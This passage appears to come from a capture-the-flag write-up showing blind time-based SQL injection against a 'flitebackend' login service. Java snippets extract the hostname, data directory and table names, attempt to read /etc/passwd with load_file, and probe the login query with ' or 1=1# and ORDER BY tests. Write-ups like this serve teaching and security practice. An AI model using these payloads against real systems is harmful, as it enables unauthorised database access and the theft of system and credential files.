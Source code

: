 #### hostname + datadir
```java
    System.out.println(blindString("'||(IF((SELECT ascii(substr(@@hostname,%d,1)))%c%d,SLEEP(%d),1))#", 20)); 
    // hostname: de8c6c400a9f
    System.out.println(blindString("'||(IF((SELECT ascii(substr(@@datadir,%d,1)))%c%d,SLEEP(%d),1))#", 30));
    // datadir: /var/lib/mysql/
```

#### Tables
```java
	public static String blindTableName(int offset) throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(table_name,%d,1)) from information_schema.tables where table_schema=database() limit "+offset+",1)%c%d,SLEEP(%d),1))#";
		return PayloadRequest.blindString(injection, 100);
	}
	...
	PayloadRequest.blindTableName(0); // devices
	PayloadRequest.blindTableName(1); // users
	PayloadRequest.blindTableName(2); // None
```

Two tables found: `devices` and `users` in `flitebackend` database.

#### Read files?
Maybe we could read some files?

```java
    System.out.println(blindString("'||(IF((SELECT ascii(substr(load_file('/etc/hosts'),%d,1)))%c%d,SLEEP(%d),1))#", 20));
    System.out.println(blindString("'||(IF((SELECT ascii(substr(load_file('/etc/passwd'),%d,1)))%c%d,SLEEP(%d),1))#", 20));
```
I don't think so...

#### Login
Maybe you are wondering why I didn't log in yet. But I started doing the time-based SQLi before even trying to log in. So let's see if we are able to log in using the SQLi:

```java
    System.out.println(PayloadRequest.sendCommand("' or 1=1#", "123123", "getTemp")); 
    // {"success": false, "error": "Invalid username or password"}
```

Humm, we need to think how the backend is doing the login process:
1. SELECT username, password FROM users WHERE username='+ username_param +' and password = '+ password_param +' ?
2. SELECT password FROM table WHERE username='+ username_param +'; then check password?

For 1 we already know that is not the case because using `' or 1=1#` would give us a successful message.
For 2 we need another test, first of all, let's check how many columns the query has.

```java
    System.out.println(PayloadRequest.sendCommand("' order by 1#", "", "getTemp")); 
    // {"success": false, "error": "Invalid username or password"}.
    
    System.out.println(PayloadRequest.sendCommand("' order by 2#", "", "getTemp")); 
    // {"success": false, "error": "Unknown"}
```
